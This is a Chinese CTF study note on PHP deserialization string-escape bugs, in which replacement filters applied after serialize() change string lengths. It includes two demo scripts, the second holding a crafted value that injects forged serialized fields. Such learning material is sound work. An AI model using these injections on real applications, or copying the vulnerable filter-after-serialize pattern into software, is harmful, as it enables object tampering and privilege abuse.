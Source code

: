 此类题目的本质就是改变序列化字符串的长度，导致反序列化漏洞

这种题目有个共同点：

1. php序列化后的字符串经过了替换或者修改，导致字符串长度发生变化。
2. 总是先进行序列化，再进行替换修改操作。

**序列化后导致字符串变长**：<u>*awctf --- 蒸滴简单*</u>

```php
<?php
function filter($str){
    return str_replace('bb', 'ccc', $str);
}
class A{
    public $name='aaaa';
    public $pass='123456';
}
$a=new A();
echo serialize($a)."\n";
$res=filter(serialize($a));

$c=unserialize($res);
echo $c->name;
?>
```

**序列化后导致字符串变短**：<u>*buuctf --- [安洵杯 2019]easy_serialize_php*</u>

```php
<?php
function str_rep($string){
	return preg_replace( '/php|test/','', $string);
}

$test['name'] = '111phpphpphpphpphpphptest';
$test['sign'] ='111";s:4:"sign";s:3:"222";s:6:"number";s:4:"2023";}'; 
$test['number'] = '2020';
$temp = str_rep(serialize($test));
printf($temp);
$fake = unserialize($temp);
echo "\n";
print("name:".$fake['name']."\n");
print("sign:".$fake['sign']."\n");
print("number:".$fake['number']."\n");

```

![image-20230717110730005](daydayup.assets/image-20230717110730005.png)
